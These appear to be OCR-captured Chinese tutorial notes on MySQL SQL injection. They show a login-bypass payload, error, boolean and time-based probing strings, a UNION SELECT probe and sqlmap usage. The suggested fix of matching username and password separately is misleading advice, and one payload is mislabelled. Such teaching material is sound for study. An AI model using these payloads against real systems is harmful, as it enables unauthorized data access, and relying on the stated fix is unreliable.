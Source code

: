 ```
SELECT * FROM users WHERE username = 'administrator'--+' AND password = ''
```

## 扫描器

sqlmap 在可使用 -r test.txt 对数据包进行注入（可测登录时的数据包）

---

SQL 注入漏洞是一种通过将恶意的 SQL 代码注入到应用程序的数据库查询中，从而未经授权地访问、修改或破坏数据库数据的安全漏洞。

## 1 MySQL 的 SQL 注入

> 在 sql 语句中 1 位数字，'1' 为字符，（但是1=’1‘），'a' 必须有单引号

当在前端输入用户名和密码时，系统可能会执行以下命令查询数据库中匹配的用户名和密码

```sql
select * from users where username='用户名' and password='密码'
```

在没有过滤的表单中可以在用户名提交以下字符

```
admin' or 1=1 --空格
```

> `--空格` 代表注释，有时需要使用 `#` 注释

得到

```sql
select * from users where username='admin' or 1=1 -- ' and password='密码'
```

> 若想防止这种 SQL 注入，将用户名和密码分开匹配即可

1. **单引号测试（'）：**

   ```
   ?id=1'
   ```

2. **双引号测试（"）：**

   ```
   ?id=1"
   ```

3. **错误消息分析：**

   ```
   ?id=1' AND 1=1--
   ?id=1' AND 1=2--
   ```

4. **布尔测试：**

   ```
   ?id=1' AND SLEEP(5)--
   ?id=1' AND 1=2 UNION SELECT 1,2,3--
   ```
